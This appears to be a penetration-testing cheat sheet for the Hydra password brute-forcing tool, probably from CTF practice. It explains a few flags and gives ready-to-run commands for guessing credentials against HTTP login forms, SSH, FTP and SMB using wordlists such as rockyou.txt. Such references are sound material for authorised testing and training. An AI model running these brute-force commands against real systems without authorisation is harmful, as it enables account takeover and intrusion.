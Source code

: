# Hydra

## Resources
- <https://github.com/vanhauser-thc/thc-hydra>
- <https://github.com/gnebbia/hydra_notes>


## Commands

`-s` PORT to specify a non-default port for the service in question.

`-V` or -vV, for verbose, makes Hydra show the username and password combinations that are being tried. This verbosity is very convenient to see the progress, especially if you are still not confident of your command-line syntax.

`-t` n where n is the number of parallel connections to the target. -t 16 will create 16 threads used to connect to the target.

`-d`, for debugging, to get more detailed information about what’s going on. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this right away.





### http
```
sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"

hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```


### ssh
```
hydra -l <username> -P <full path to pass> [IP] -t 4 ssh
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://${ip} -t 4

hydra -L [USERS FILE] -P [PASSWORDS FILE] [IP] ssh -u -I
hydra -L [USERS FILE] -P [PASSWORDS FILE] ssh://[IP]



hydra -l username -P wordlist.txt server service

hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV [IP] ssh

```

### ftp
```
hydra -l user -P passlist.txt ftp://[IP]

hydra -l mark -P /usr/share/wordlists/rockyou.txt [IP] ftp

hydra -L /usr/share/metasploit-framwork/data/wordlists/common_users.txt -P /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt [IP] ftp

hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV ftp://[IP]

```


### smb
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [IP] smb


```



